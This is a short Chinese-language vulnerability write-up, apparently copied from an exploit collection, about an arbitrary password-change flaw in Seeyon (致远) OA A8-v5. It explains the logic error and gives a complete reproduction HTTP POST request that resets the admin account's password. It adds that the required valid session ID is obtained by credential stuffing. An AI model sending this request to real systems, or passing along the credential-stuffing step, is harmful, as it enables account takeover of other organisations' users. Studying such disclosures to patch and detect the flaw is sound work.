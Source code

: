 # 致远 OA A8-v5 任意用户密码修改

> 原文：[http://book.iwonder.run/0day/致远 oa/13.html](http://book.iwonder.run/0day/致远 oa/13.html)

## 一、漏洞简介

致远 A8-V5 在设计时存在逻辑错误，在上一步对原始密码进行验证后，下一步不再检测原始密码，从而直接修改用户密码，导致平行权限的越权漏洞。

## 二、漏洞影响

致远 OA A8-v5

## 三、复现过程

POST 如下数据

```
POST /seeyon/individualManager.do?method=modifyIndividual HTTP/1.0

Accept: text/html, application/xhtml+xml, */*

Referer: http://www.0-sec.org/seeyon/individualManager.do?method=managerFrame

Accept-Language: zh-CN

User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko

Content-Type: application/x-www-form-urlencoded

Proxy-Connection: Keep-Alive

Pragma: no-cache

Content-Length: 86

DNT: 1

Host: www.0-sec.org

Cookie: JSESSIONID=DA71A65B3AAD45823A1FADAB80A3E685; Hm_lvt_49c0fa7f96aa0a5fb95c62909d5190a6=1419221849,1419232608; avatarImageUrl=8469117046183055270; loginPageURL="/main.do"

individualName=admin&formerpassword=123456&nowpassword=wy123456&validatepass=wy123456 
```

individualName 为用户名

注意，此处需要以一个合法的 JSESSIONID 发送如上数据即可修改任意用户密码，合法的 JSESSIONID 由撞库得出。

本次证明演示中修改的用户为 admin，修改为 wy123456

